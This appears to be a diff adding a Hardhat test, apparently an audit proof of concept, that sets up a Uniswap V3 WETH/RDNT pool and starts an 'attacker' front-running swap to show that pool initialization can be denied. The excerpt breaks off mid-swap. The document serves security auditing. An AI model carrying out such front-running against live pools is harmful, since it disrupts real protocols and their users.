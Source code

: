 ```diff
+               reserve1: BigNumber,
+       ) {
+               let precisionHelper = BigNumber.from(1); // uint160 precisionHelper = 1;
+               if (reserve1 < reserve0) {
+                       precisionHelper = ONE_ETH; // precisionHelper = 1 ether;
+                       reserve1 = reserve1.mul(precisionHelper.mul(precisionHelper)); // reserve1 = reserve1 * precisionHelper ** 2;
+               }
+               return sqrt(reserve1.div(reserve0)).mul(TWO.pow(96)).div(precisionHelper); // uint160Safe((Math.sqrt(reserve1 / reserve0)) * 2 ** 96) / precisionHelper;
+       }
+
+       it('initializePool can be DoS', async () => {
+               const {
+                       factory,
+                       router,
+                       quoter,
+                       weth,
+                       rdnt,
+                       samplePool,
+                       uV3TokenizedLp_implementation,
+                       poolHelper,
+                       rdntUsdOracle,
+                       wethUsdOracle,
+                       creator,
+                       user1,
+                       user2,
+                       user3,
+               } = await loadFixture(setupFixture);
+
+               // 1. create pool for test
+               await factory.createPool(weth.address, rdnt.address, 3000);
+               const uniswapV3Pool = await ethers.getContractAt('UniswapV3Pool', await factory.getPool(weth.address, rdnt.address, 3000));
+               let sqrtPriceX96 = weth.address < rdnt.address ?
+                       encodePriceSqrtX96(POOL_WETH_RESERVE, POOL_RDNT_RESERVE) : encodePriceSqrtX96(POOL_RDNT_RESERVE, POOL_WETH_RESERVE);
+               await uniswapV3Pool.initialize(sqrtPriceX96);
+               await weth.mint(user1.address, POOL_WETH_RESERVE);
+               await rdnt.mint(user1.address, POOL_RDNT_RESERVE);
+               await weth.connect(user1).approve(router.address, ethers.constants.MaxUint256);
+               await rdnt.connect(user1).approve(router.address, ethers.constants.MaxUint256);
+               await router.connect(user1).addFullRangeLiquidity(
+                       weth.address,
+                       rdnt.address,
+                       await uniswapV3Pool.fee(),
+                       weth.address < rdnt.address ? POOL_WETH_RESERVE : POOL_RDNT_RESERVE,
+                       weth.address < rdnt.address ? POOL_RDNT_RESERVE : POOL_WETH_RESERVE,
+               )
+
+               // 2. attacker swap in advance
+               const [,,,, attacker] = await ethers.getSigners();
+               await weth.mint(attacker.address, ethers.utils.parseEther('1'));
+               await rdnt.mint(attacker.address, ethers.utils.parseEther('1'));
+               await weth.connect(attacker).approve(router.address, ethers.constants.MaxUint256);
+               await rdnt.connect(attacker).approve(router.address, ethers.constants.MaxUint256);
+               const attackerWethBalanceBefore = await weth.balanceOf(attacker.address);
+               await router.connect(attacker).exactInputSingle({
+                       tokenIn: weth.address,
+                       tokenOut: rdnt.address,
+                       fee: await uniswapV3Pool.fee(),
+                       recipient: attacker.address,
+                       deadline: ethers.constants.MaxUint256,
```